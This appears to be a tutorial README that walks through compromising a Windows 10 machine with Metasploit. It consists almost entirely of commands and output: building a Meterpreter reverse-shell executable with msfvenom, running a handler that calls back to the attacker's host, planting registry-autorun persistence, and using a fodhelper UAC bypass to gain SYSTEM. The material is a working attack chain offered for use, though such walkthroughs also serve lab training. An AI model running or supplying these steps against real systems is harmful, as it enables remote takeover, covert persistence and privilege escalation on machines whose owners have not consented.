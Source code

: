 # Compromise Windows-10
In this I will explain how to bypass Windows 10 ,make the attack persistence also UAC bypass on the target machine. We will be doing this with the help of payload created in kali linux.

Steps to create payload in kali linux: 

1. In kali terminal {WINDOWS 10 is 64bit bydefault}
┌──(bhavin㉿kali)-[~/Desktop]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp  lhost=192.168.94.184 lport=1234 -f exe -o win10.exe  
                |                                  |        |          |      |    |   |      ||        |   
Syntax:-        |      Type of palyoad             |        | Your IP  |      |port|   |format||Filename|
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: win10.exe


2. Payload will be created successfully if everything is correct.

3. Transfer the win10.exe file to the target machine.

4. In kali open msfconsole

┌──(bhavin㉿kali)-[~]
└─$ msfconsole                                                                                          

5. use a epxloit 

6. set exact same payload as used while creation of payload executable file.

7. use same lhost and lport 

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lport 1234
lport => 1234
msf6 exploit(multi/handler) > set lhost 192.168.94.184
lhost => 192.168.94.184
msf6 exploit(multi/handler) > 

ALSO disable ExitOnSession 

msf6 exploit(multi/handler) > set ExitOnSession false 
ExitOnSession => false
msf6 exploit(multi/handler) > 

8. exploit

9. Double click the win10.exe file in Windows 10

10. In kali

msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.94.184:1234 
msf6 exploit(multi/handler) > [*] Sending stage (200774 bytes) to 192.168.94.54
[*] Meterpreter session 1 opened (192.168.94.184:1234 -> 192.168.94.54:49943) at 2023-01-31 19:54:38 +0530
meterpreter > 

11. To make persistence 

meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > search persistence

Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   0   exploit/linux/local/apt_package_manager_persistence   1999-03-09       excellent  No     APT Package Manager Persistence                                                                                                                             
   1   exploit/windows/local/ps_wmi_exec                     2012-08-19       excellent  No     Authenticated WMI Exec via Powershell
   2   exploit/linux/local/autostart_persistence             2006-02-13       excellent  No     Autostart Desktop Item Persistence                                                                                                                          
   3   exploit/linux/local/bash_profile_persistence          1989-06-08       normal     No     Bash Profile Persistence
   4   exploit/linux/local/cron_persistence                  1979-07-01       excellent  No     Cron Persistence
   5   exploit/osx/local/persistence                         2012-04-01       excellent  No     Mac OS X Persistent Payload Installer
   6   exploit/osx/local/sudo_password_bypass                2013-02-28       normal     Yes    Mac OS X Sudo Password Bypass
   7   exploit/windows/local/vss_persistence                 2011-10-21       excellent  No     Persistent Payload in Windows Volume Shadow Copy
   8   auxiliary/server/regsvr32_command_delivery_server                      normal     No     Regsvr32.exe (.sct) Command Delivery Server
   9   post/linux/manage/sshkey_persistence                                   excellent  No     SSH Key Persistence
   10  post/windows/manage/sshkey_persistence                                 good       No     SSH Key Persistence
   11  exploit/linux/local/service_persistence               1983-01-01       excellent  No     Service Persistence
   12  exploit/windows/local/wmi_persistence                 2017-06-06       normal     No     WMI Event Subscription Persistence                                                                                                                          
   13  post/windows/gather/enum_ad_managedby_groups                           normal     No     Windows Gather Active Directory Managed Groups
   14  post/windows/manage/persistence_exe                                    normal     No     Windows Manage Persistent EXE Payload Installer
   15  exploit/windows/local/s4u_persistence                 2013-01-02       excellent  No     Windows Manage User Level Persistent Payload Installer
   16  exploit/windows/local/persistence                     2011-10-19       excellent  No     Windows Persistent Registry Startup Payload Installer
   17  exploit/windows/local/persistence_service             2018-10-20       excellent  No     Windows Persistent Service Installer
   18  exploit/windows/local/registry_persistence            2015-07-01       excellent  Yes    Windows Registry Only Persistence                                                                                                                           
   19  exploit/windows/local/persistence_image_exec_options  2008-06-28       excellent  No     Windows Silent Process Exit Persistence                                                                                                                     
   20  exploit/linux/local/yum_package_manager_persistence   2003-12-17       excellent  No     Yum Package Manager Persistence                                                                                                                             
   21  exploit/unix/local/at_persistence                     1997-01-01       excellent  Yes    at(1) Persistence
   22  exploit/linux/local/rc_local_persistence              1980-10-01       excellent  No     rc.local Persistence


Interact with a module by name or index. For example info 22, use 22 or use exploit/linux/local/rc_local_persistence

msf6 exploit(multi/handler) > use 14

12. set the options 

13. 
msf6 post(windows/manage/persistence_exe) > set rexepath win10.exe
rexepath => win10.exe
msf6 post(windows/manage/persistence_exe) > set session
session => 
msf6 post(windows/manage/persistence_exe) > set session 1
session => 1
msf6 post(windows/manage/persistence_exe) > run 

[*] Running module against ABCD
[*] Reading Payload from file /home/bhavin/Desktop/win10.exe
[+] Persistent Script written to C:\Users\dummy\AppData\Local\Temp\default.exe
[*] Executing script C:\Users\dummy\AppData\Local\Temp\default.exe
[+] Agent executed with PID 9064
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\kbYQVyTFMP
[*] Sending stage (200774 bytes) to 192.168.94.54
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\kbYQVyTFMP
[*] Cleanup Meterpreter RC File: /home/bhavin/.msf4/logs/persistence/ABCD_20230131.5741/ABCD_20230131.5741.rc
[*] Post module execution completed
msf6 post(windows/manage/persistence_exe) > [*] Meterpreter session 2 opened (192.168.94.184:1234 -> 192.168.94.54:49952) at 2023-01-31 19:57:43 +0530

14. UAC bypass 

msf6 post(windows/manage/persistence_exe) > search uac

Matching Modules
================

   #   Name                                                   Disclosure Date  Rank       Check  Description
   -   ----                                                   ---------------  ----       -----  -----------
   0   post/windows/manage/sticky_keys                                         normal     No     Sticky Keys Persistance Module
   1   exploit/windows/local/cve_2022_26904_superprofile      2022-03-17       excellent  Yes    User Profile Arbitrary Junction Creation Local Privilege Elevation
   2   exploit/windows/local/bypassuac_windows_store_filesys  2019-08-22       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe)
   3   exploit/windows/local/bypassuac_windows_store_reg      2019-02-19       manual     Yes    Windows 10 UAC Protection Bypass Via Windows Store (WSReset.exe) and Registry
   4   exploit/windows/local/ask                              2012-01-03       excellent  No     Windows Escalate UAC Execute RunAs
   5   exploit/windows/local/bypassuac                        2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass
   6   exploit/windows/local/bypassuac_injection              2010-12-31       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection)
   7   exploit/windows/local/bypassuac_injection_winsxs       2017-04-06       excellent  No     Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS
   8   exploit/windows/local/bypassuac_vbs                    2015-08-22       excellent  No     Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)
   9   exploit/windows/local/bypassuac_comhijack              1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   10  exploit/windows/local/bypassuac_eventvwr               2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
   11  exploit/windows/local/bypassuac_sdclt                  2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Shell Open Registry Key)
   12  exploit/windows/local/bypassuac_silentcleanup          2019-02-24       excellent  No     Windows Escalate UAC Protection Bypass (Via SilentCleanup)
   13  exploit/windows/local/bypassuac_dotnet_profiler        2017-03-17       excellent  Yes    Windows Escalate UAC Protection Bypass (Via dot net profiler)
   14  post/windows/gather/win_privs                                           normal     No     Windows Gather Privileges Enumeration
   15  exploit/windows/local/tokenmagic                       2017-05-25       excellent  Yes    Windows Privilege Escalation via TokenMagic (UAC Bypass)
   16  exploit/windows/local/bypassuac_fodhelper              2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key)
   17  exploit/windows/local/bypassuac_sluihijack             2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)


Interact with a module by name or index. For example info 17, use 17 or use exploit/windows/local/bypassuac_sluihijack

msf6 post(windows/manage/persistence_exe) > use 16


msf6 exploit(windows/local/bypassuac_fodhelper) > set session 2
session => 2
msf6 exploit(windows/local/bypassuac_fodhelper) > set lport 1234
lport => 1234
msf6 exploit(windows/local/bypassuac_fodhelper) > set target 1
target => 1
msf6 exploit(windows/local/bypassuac_fodhelper) > run 
[*] Meterpreter session 3 opened (192.168.94.184:1234 -> 192.168.94.54:49952) at 2023-01-31 19:57:43 +0530

meterpreter > getuid 
Server username: ABCD\dummy
meterpreter > getsystem 
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM


